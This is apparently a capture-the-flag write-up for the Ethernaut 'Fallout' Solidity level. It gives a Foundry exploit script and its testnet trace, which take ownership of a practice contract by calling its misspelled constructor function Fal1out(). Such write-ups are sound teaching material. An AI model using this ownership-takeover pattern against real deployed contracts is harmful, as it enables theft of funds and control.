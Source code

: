 

<br>

* a solution can be submitted with `script/02/Fallout.s.sol`:

<br>

```solidity
import "forge-std/Script.sol";
import "src/02/Fallout.sol";

contract Exploit is Script {
    
      address level_instance = 0xAADB92d23788EA81c46fe22C4d4771B23dcc96a2;
      Fallout level = Fallout(payable(address(level_instance)));

      function run() public {

          vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

          level.Fal1out();

          vm.stopBroadcast();
    }
}
```

<br>

* by running:

<br>

```shell
> forge script ./script/02/Fallout.s.sol --broadcast -vvvv --rpc-url sepolia

[⠢] Compiling...
[⠃] Compiling 1 files with 0.8.21
[⠊] Solc 0.8.21 finished in 619.82ms
Compiler run successful!
Traces:
  [54327] Exploit::run() 
    ├─ [0] VM::envUint(PRIVATE_KEY) [staticcall]
    │   └─ ← <env var value>
    ├─ [0] VM::startBroadcast(<pk>) 
    │   └─ ← ()
    ├─ [24542] 0xAADB92d23788EA81c46fe22C4d4771B23dcc96a2::Fal1out() 
    │   └─ ← ()
    ├─ [0] VM::stopBroadcast() 
    │   └─ ← ()
    └─ ← ()


Script ran successfully.

## Setting up (1) EVMs.
==========================
Simulated On-chain Traces:

  [48456] 0xAADB92d23788EA81c46fe22C4d4771B23dcc96a2::Fal1out() 
    └─ ← ()


==========================

Chain 11155111

```